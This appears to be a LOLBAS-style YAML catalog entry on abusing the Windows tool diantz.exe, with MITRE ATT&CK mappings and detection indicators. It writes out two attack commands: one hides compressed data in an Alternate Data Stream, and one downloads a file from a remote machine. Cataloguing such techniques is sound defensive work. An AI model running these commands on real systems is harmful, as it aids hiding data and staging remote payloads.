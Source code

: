 ```yaml
---
Name: Diantz.exe
Description: Binary that package existing files into a cabinet (.cab) file
Author: "Tamir Yehuda"
Created: "08/08/2020"
Commands:
  - Command: diantz.exe c:\pathToFile\file.exe c:\destinationFolder\targetFile.txt:targetFile.cab
    Description: Compress taget file into a cab file stored in the Alternate Data Stream (ADS) of the target file.
    Usecase: Hide data compressed into an Alternate Data Stream.
    Category: ADS
    Privileges: User
    MitreID: T1096
    MitreLink: https://attack.mitre.org/wiki/Technique/T1096
    OperatingSystem: Windows Server 2012, Windows Server 2012R2, Windows Server 2016, Windows Server 2019
  - Command: diantz.exe \\remotemachine\pathToFile\file.exe c:\destinationFolder\file.cab
    Description: Download and compress a remote file and store it in a cab file on local machine.
    Usecase: Download and compress into a cab file.
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows XP, Windows vista, Windows 7, Windows 8, Windows 8.1.
Full_Path:
  - Path: c:\windows\system32\diantz.exe
  - Path: c:\windows\syswow64\diantz.exe
Code_Sample:
  - Code:
Detection:
  - IOC: diantz storing data into alternate data streams.
  - IOC: diantz getting a file from a remote machine or the internet.
Resources:
  - Link: https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diantz
Acknowledgement:
  - Person: Tamir Yehuda
    Handle: "@tim8288"
  - Person: Hai Vaknin
    Handle: "@vakninhai"
---
```

